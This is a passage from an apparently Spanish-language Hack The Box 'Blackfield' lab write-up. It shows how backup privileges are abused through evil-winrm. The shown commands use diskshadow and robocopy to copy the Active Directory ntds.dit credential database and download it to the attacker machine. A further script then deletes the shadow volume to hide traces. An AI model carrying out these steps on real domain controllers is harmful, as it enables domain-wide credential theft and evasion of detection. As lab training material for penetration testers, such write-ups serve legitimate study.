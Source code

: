 ```powershell
PS C:\Users\svc_backup\Desktop> upload /home/r1pfr4n/Desktop/HTB/Blackfield/content/diskshadow.txt
```

Una vez subido el script, se ejecuta el comando siguiente en el directorio donde se encuentra el archivo diskshadow.txt:

```powershell
PS C:\Users\svc_backup\Desktop> diskshadow.exe /s diskshadow.txt
```

Tras su ejecución, se debería ver una salida similar a la siguiente:

![imagen 35](Pasted image 20230724204720.png)

Este comando genera una copia del sistema de archivos en la **unidad lógica x**. A continuación, se emplea la herramienta `robocopy` para **copiar el archivo ntds.dit a la ubicación deseada**:

```powershell
PS C:\Users\svc_backup\Desktop> robocopy /b x:\Windows\NTDS\ . ntds.dit
```

En este caso, se transfiere el archivo `x:\Windows\NTDS\ntds.dit` al directorio en uso, que es `C:\Users\svc_backup\Desktop`:

![imagen 36](Pasted image 20230724205259.png)

Para finalizar, se descarga el archivo ntds.dit utilizando el comando `download` de evil-winrm:

```powershell
PS C:\Users\svc_backup\Desktop> download C:\Users\svc_backup\Desktop\ntds.dit
```

#### Limpieza Post-Extracción (recomendable)

Una vez se ha copiado el archivo **ntds.dit** y descargado a la máquina atacante, es recomendable realizar la limpieza de los rastros de la actividad realizada en la máquina víctima. En concreto, **se recomienda** **eliminar el volumen creado en el proceso de copiado** (en este caso, el volumen x).

Para ello, se crea un **segundo script** de DiskShadow denominado **cleanup.txt** que tiene por finalidad eliminar el volumen que se creó durante la extracción de **ntds.dit**. Este script contiene el siguiente comando:

```powershell
delete shadows volume x: 
```

Este script se genera en la máquina atacante y se carga en la máquina víctima utilizando el comando `upload` de **evil-winrm**:

```powershell
PS C:\Users\svc_backup\Desktop> upload /home/r1pfr4n/Desktop/HTB/Blackfield/content/cleanup.txt
```

Una vez subido, se ejecuta el siguiente comando en el mismo directorio donde se aloja cleanup.txt:

```powershell
PS C:\Users\svc_backup\Desktop> diskshadow.exe /s cleanup.txt
```

Después de ejecutar este comando, el volumen x debería estar eliminado, reduciendo así la huella digital en la máquina víctima:
